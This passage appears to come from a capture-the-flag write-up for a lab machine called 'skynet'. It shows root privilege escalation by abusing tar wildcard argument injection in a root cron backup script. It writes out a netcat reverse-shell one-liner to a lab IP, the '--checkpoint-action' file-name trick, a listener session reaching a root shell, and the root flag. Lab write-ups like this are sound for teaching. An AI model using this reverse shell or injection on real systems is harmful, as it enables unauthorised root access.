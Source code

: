     # that none of the other crontabs do.

    SHELL=/bin/sh
    PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

    # m h dom mon dow user  command
    */1 *   * * *   root    /home/milesdyson/backups/backup.sh
    17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
    25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
    47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
    52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
    #

We can see that root is running a backup, lets take a look at the script:

    #!/bin/bash
    cd /var/www/html
    tar cf /home/milesdyson/backups/backup.tgz *

tar has a vulnerability based on the wildcard * (all). Essentially you can use checkpoints, and checkpoint actions to execute a shell script, that contains a reverse shell:

    echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.82.167 6789 >/tmp/f" > shell.sh
    touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
    touch "/var/www/html/--checkpoint=1"

![](2020-08-20-12-03-03.png)

Tried a couple different methods but this one worked.
Link to article: https://medium.com/@int0x33/day-67-tar-cron-2-root-abusing-wildcards-for-tar-argument-injection-in-root-cronjob-nix-c65c59a77f5e

kali@kali-[10.8.82.167]:~/Desktop$ nc -lvnp 6789
listening on [any] 6789 ...
connect to [10.8.82.167] from (UNKNOWN) [10.10.25.119] 50406
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# python -c 'import pty;pty.spawn("/bin/bash")'
root@skynet:/var/www/html# whoami
whoami
root
root@skynet:/var/www/html# id
id
uid=0(root) gid=0(root) groups=0(root)
root@skynet:/var/www/html# cat /root/root.txt
cat /root/root.txt
3f0372db24753accc7179a282cd6a949
root@skynet:/var/www/html# 

Complete!